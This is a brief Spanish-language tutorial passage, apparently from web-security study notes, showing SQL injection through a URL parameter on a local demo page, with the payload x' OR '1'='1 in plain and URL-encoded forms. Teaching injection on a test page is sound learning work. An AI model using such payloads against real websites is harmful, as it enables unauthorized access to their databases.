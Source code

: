 Podemos inyectar codigo SQL desde la propia query:

```plaintext
http://localhost:8080/url-injection.php?nombre=x' OR '1'='1
```

Quizá debes escapar los caracteres como comillas o espacios:

```plaintext
http://localhost:8080/url-injection.php?nombre=x%27%20OR%20%271%27%3D%271
```